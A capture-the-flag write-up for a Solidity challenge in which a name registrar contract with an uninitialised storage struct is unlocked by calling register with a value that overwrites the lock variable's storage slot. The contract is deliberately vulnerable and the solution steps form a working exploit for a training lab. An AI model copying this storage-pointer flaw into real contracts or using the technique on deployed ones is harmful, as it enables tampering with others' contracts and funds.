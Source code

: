 # Locked
_difficulty 6/10_

This name registrar is locked and will not accept any new names to be registered.  


Unlock this registrar to beat the level.  


Things that might help:  
- Understanding how storage works
- Understanding default storage types for local variables
- Understanding the difference between storage and memory

## Sources
```
pragma solidity ^0.4.23; 

// A Locked Name Registrar
contract Locked {

    bool public unlocked = false;  // registrar locked, no name updates
    
    struct NameRecord { // map hashes to addresses
        bytes32 name; // 
        address mappedAddress;
    }

    mapping(address => NameRecord) public registeredNameRecord; // records who registered names 
    mapping(bytes32 => address) public resolve; // resolves hashes to addresses
    
    function register(bytes32 _name, address _mappedAddress) public {
        // set up the new NameRecord
        NameRecord newRecord;
        newRecord.name = _name;
        newRecord.mappedAddress = _mappedAddress; 

        resolve[_name] = _mappedAddress;
        registeredNameRecord[msg.sender] = newRecord; 

        require(unlocked); // only allow registrations if contract is unlocked
    }
}
```

## Level author  
Adrian Manning  
age@agemanning.com  
https://github.com/AgeManning  

## Solution

1. Let's check what's stored in the storage of the contract
```
let lockedData = [];
let lockedDataCb = (index) => (error, contractData) => {
  data[index] = contractData
}
for(var i = 0; i < 2; i++){
  web3.eth.getStorageAt(contract.address, i, lockedDataCb(i))
}
```

```
data:
0:"0x0000000000000000000000000000000000000000000000000000000000000000"
1:"0x0000000000000000000000000000000000000000000000000000000000000000"
```

The storage in the location 0 is `0x0` or false - the contract is locked.

2. Check if the contract returns unlocked as false.  
`await contract.unlocked()`  
false  

3. The contract uses `storage` memory for the `NameRecord` struct in the `register(bytes32 _name, address _mappedAddress)`. This will force the struct in the storage memory and overwrite the local data.

`await contract.register('0x0000000000000000000000000000000000000000000000000000000000000001', player)`

4. Let's see what's recorded in the storage now.
```
for(var i = 0; i < 2; i++){
  web3.eth.getStorageAt(contract.address, i, lockedDataCb(i))
}
```
```
data:
0: "0x0000000000000000000000000000000000000000000000000000000000000001"
1: "0x000000000000000000000000fdfc2d2c2b580809f8668b117da374d99fab64a8"
```

5. Contract should be unlocked now.  
`await contract.unlocked()`  
true  

6. Submit instance 🎉   

## Lesson

Care should be taken when using complex data types within functions. Incorrectly initialised storage variables can lead to modification of other storage variables as this level demonstrates.
